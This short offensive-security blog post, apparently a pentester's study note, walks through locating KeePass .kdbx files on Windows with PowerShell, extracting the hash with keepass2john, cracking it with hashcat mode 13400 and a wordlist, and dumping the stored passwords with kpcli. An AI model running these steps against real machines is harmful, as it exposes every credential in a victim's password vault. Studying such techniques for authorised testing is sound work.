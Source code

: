 ```yaml
---
layout: post
title: Windows Password Managers
titledate: 09/11/23
tags: ["infosec","offsec", "password"]
---
```


we can crack windows password manager database hashes

if the user uses a manager like keypass we can do a search to see what extension is being used to store the passwords in the database

then use powershell to search for it

    PS> Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

    PS> Get-ChildItem -Path "C:\Users\jim" -Filter *.kdbx -r | % { $_.Name.Replace( ".kdbx","") }

we can use john the ripper's keeppass2john script to format the database

    $ keepass2john Database.kdbx > keepass.hash

john the ripper adds the username Database to the keepass hash file but we will use hashcat so we can remove this

to show the correct mode of hashcat to use 

    $ hashcat --help | grep -i "KeePass"

displays 13400 for keepass

and finally crack it

    $ hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force

now we use kpcli to view Databse contents

    $ kpcli --kdb=Database.kdbx

enter password from Database.kdx crack
    
and to show passwords

    $ show 1 -f
